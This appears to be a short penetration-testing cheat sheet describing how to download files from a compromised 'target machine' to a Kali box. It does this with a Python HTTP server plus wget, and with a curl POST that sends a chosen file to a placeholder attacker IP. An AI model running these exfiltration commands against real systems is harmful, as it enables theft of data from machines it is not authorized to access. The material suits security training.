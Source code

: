 # Download
Very often we want to download and open locally a file we found in the target machine.

## Python
The simplest way to do it is to start a Python Server in the same directory of the file and send a GET request

```console
# [TARGET] From shell
python3 -m http.server {PORT}

# [KALI] From shell
wget {TARGET_IP}:{PORT}/{FILE_NAME}

# [KALI] From browser
http://{TARGET_IP}:{PORT}/{FILE_NAME}
```

## Curl
It can happen the target System has not python installed. In this case we can start a Python server locally and send a POST request (simulating an upload).
downloader.py can be found on `scripts` folder

```console
# From kali
python downloader.py

# From target 
curl {KALI_IP}:9002 -X POST -F 'file=@"{/path/file}"'
```